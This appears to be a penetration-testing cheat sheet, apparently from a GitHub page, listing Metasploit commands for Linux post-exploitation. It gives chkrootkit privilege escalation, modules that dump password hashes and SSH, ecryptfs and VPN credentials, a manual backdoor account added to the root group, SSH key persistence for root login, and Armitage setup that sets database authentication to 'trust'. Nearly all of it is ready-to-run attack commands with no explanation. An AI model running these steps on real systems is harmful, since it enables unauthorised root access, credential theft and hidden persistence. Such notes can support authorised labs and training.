 ```
# PRIVILEGE ESCALATION - chkrootkit
ps aux
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION 1
set LHOST <LOCAL_IP>
```

```
# Dumping Hashes
use post/linux/gather/hashdump
use post/multi/gather/ssh_creds
use post/linux/gather/ecryptfs_creds
use post/linux/gather/enum_psk
use post/linux/gather/pptpd_chap_secrets
set SESSION 1
```

```
# PERSISTENCE
# Meterpreter - Manual
shell

whoami
	root
cat /etc/passwd
useradd -m ftp -s /bin/bash
passwd ftp
usermod -aG root ftp
usermod -u 15 ftp
groups ftp

# SSH Key
use post/linux/manage/sshkey_persistence
set CREATESSHFOLDER true
set SESSION 1

# Persistence Test
loot
cat /root/.msf4/loot/DATE_Linux_Persistenc_<TARGET_IP>_id_rsa_.txt
# Exit all the msfconsole sessions and close it
exit -y

vim ssh_key # paste Key
chmod 0400 ssh_key
ssh -i ssh_key root@<TARGET_IP>
```

**Armitage**



```
# Armitage Kali Linux - Install
sudo apt install armitage -y
sudo msfdb init
sudo nano /etc/postgresql/15/main/pg_hba.conf
# On line 87 switch “scram-sha-256” to “trust”
sudo systemctl enable postgresql
sudo systemctl restart postgresql
sudo armitage
```
